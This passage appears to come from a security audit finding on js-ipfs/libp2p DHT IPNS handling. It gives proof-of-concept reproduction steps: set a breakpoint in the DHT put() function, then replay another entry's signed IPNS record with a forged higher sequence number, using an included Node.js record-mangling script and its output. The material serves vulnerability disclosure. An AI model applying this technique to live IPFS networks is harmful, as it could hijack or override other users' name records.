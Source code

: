 ```json
```

3. set a breakpoint at `node_modules/libp2p-kad-dht/src/content-fetching/index.js` function `async put()`. More precicely on this line:

```js
      // create record in the dht format
      const record = await utils.createPutRecord(key, value)  //@audit - BREAK HERE
```

4. run a dummy `ipfs publish` and after a couple of seconds we should hit the breakpoint: 
   
    `IPFS_PATH=./ipfs2 ipfs name publish /ipfs/QmVKTUKt16xUTUUNMxzrdAHe1oBVtgwLRt5Vzms2oVMjhx --key=someone`

5. At the breakpoint (or ideally before breaking here :D) create a new ipns record from the targetEntryData but with an updated sequence number. For convenience, use this script to mangle the record:


The script below unpacks a base64 encoded ipns record and changes the sequence number.

```js
const ipns = require("ipns");
const fromString = require('uint8arrays/from-string')
const toString = require('uint8arrays/to-string')

let args = process.argv.slice(2)
let entryData = args[1];
let newSeq = parseInt(args[0]);
console.log(entryData)
//uint8ArrayFromString("L2lwbnMvACQIARIgJ4/G3Ml5XRbfTmiNVsfJTxQx4aRP4AFjFaHB8H/KFQk","base64")
//let key = "L2lwbnMvACQIARIgJ4/G3Ml5XRbfTmiNVsfJTxQx4aRP4AFjFaHB8H/KFQk"
//let entryData = "CjQvaXBmcy9RbWVnZ1dqNkJFWVJuWmRHQ3ZhbW9oSGl5TFQ5dUMyN240M2k0bjlhWjN1ZUJ5EkB8DZQJWS2IHUIldImQs56wKt1XZ/9qlsJLisRbYL1etyWbpsbv5fVCVA0PnOIu2bM9f14T0/1NbUPSN12kVxIDGAAiHjIwMjEtMDgtMTNUMTM6Mzg6MDUuNDQwMDAwMDAwWigA"

//console.log(fromString(key, "base64"))
console.log(fromString(entryData, "base64"))

let data = ipns.unmarshal(fromString(entryData, "base64"))
console.log(data)

console.log("====== changing sequence to: " + newSeq)
data.sequence = newSeq

console.log(data)

console.log(`Buffer.from(uint8ArrayFromString("${toString(ipns.marshal(data), "base64")}","base64"))`)
```

Here's an example output updating the record sequence number to `250`:

```console
⇒  node ipnslala.js 250 CjQvaXBmcy9RbWVnZ1dqNkJFWVJuWmRHQ3ZhbW9oSGl5TFQ5dUMyN240M2k0bjlhWjN1ZUJ5EkBvMifAZ/PpzEa+QxbBuWdqUE6UrGT4yiDy1CQ7rp8Rp9cXXvX/68f3cfJel5kACFv336BIMGAzvyGg6V661qwDGAAiHjIwMjEtMDgtMTNUMTQ6NDA6MjIuMDY1MDAwMDAwWigAOiQIARIgJ4/G3Ml5XRbfTmiNVsfJTxQx4aRP4AFjFaHB8H/KFQk

CjQvaXBmcy9RbWVnZ1dqNkJFWVJuWmRHQ3ZhbW9oSGl5TFQ5dUMyN240M2k0bjlhWjN1ZUJ5EkBvMifAZ/PpzEa+QxbBuWdqUE6UrGT4yiDy1CQ7rp8Rp9cXXvX/68f3cfJel5kACFv336BIMGAzvyGg6V661qwDGAAiHjIwMjEtMDgtMTNUMTQ6NDA6MjIuMDY1MDAwMDAwWigAOiQIARIgJ4/G3Ml5XRbfTmiNVsfJTxQx4aRP4AFjFaHB8H/KFQk
Uint8Array(194) [
   10,  52,  47, 105, 112, 102, 115,  47,  81, 109, 101, 103,
  103,  87, 106,  54,  66,  69,  89,  82, 110,  90, 100,  71,
   67, 118,  97, 109, 111, 104,  72, 105, 121,  76,  84,  57,
  117,  67,  50,  55, 110,  52,  51, 105,  52, 110,  57,  97,
   90,  51, 117, 101,  66, 121,  18,  64, 111,  50,  39, 192,
  103, 243, 233, 204,  70, 190,  67,  22, 193, 185, 103, 106,
```